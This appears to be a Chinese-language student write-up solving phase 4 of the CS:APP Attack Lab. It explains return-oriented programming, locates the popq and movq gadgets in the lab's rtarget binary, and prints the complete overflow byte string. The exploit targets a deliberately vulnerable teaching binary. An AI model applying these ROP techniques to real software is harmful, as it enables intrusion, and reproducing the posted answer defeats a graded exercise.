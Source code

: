 - 开启了栈随机化，无法准确获知代码注入的地址

- PC 无法指向栈内地址，否则会直接报内存错误

但对于 rtarget，我们仍然可以利用 ROP 攻击：

ROP 攻击一般得满足如下条件

- 程序存在溢出。

- 可以找到满足条件的 gadgets 以及相应 gadgets 的地址。

> 当我们没办法直接执行自己 inject 进去的指令时，就可以利用这个可执行文件里本来就有的程序片段来凑出我们想执行的功能，这些片段就称为 gadget

gadget 通常是 `ret` 语句结尾，我们通过内存越界更改返回地址，就可以让程序依次执行一系列 gadgets

这样，我们通过一系列 gadgets 拼凑出我们希望执行的指令，例如，如下就是一个 gadget:

```asm
0000000000400f15 <setval_210>:
  400f15: c7 07 d4 48 89 c7   movl $0xc78948d4,(%rdi)
  400f1b: c3                  retq
```

相当于执行了 `movl $0xc78948d4,(%rdi)`，也可以修改任意的起始地址，只要拼凑出的字节码执行的命令是我们需要的即可

phase4 的要求与 phase2 类似，需要修改 `%rdi` 寄存器值为 cookie 值

如何把栈内的值存到寄存器内呢？显然我们需要一条 `popq` 语句。很遗憾没有找到直接 `popq %rdi` 的 gadget，但是我们也可以和 `movq` 配合，先 `popq` 到另一个寄存器，再 `movq` 到 `%rdi`

搜索 `48 89` （这是为了 `movq` 到 `%rdi` ），找到以下 gadget

```asm
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	ret
```

有用字节码为 `48 89 c7`。查表得我们需要寻找 `popq` 到 `%rax` 的 gadget

搜索 `58`

```asm
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	ret
```

由于 `90` 恰好是 `nop`，所以我们就找到了需要的两个 gadget

得到答案（同理注意端序）：

```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```
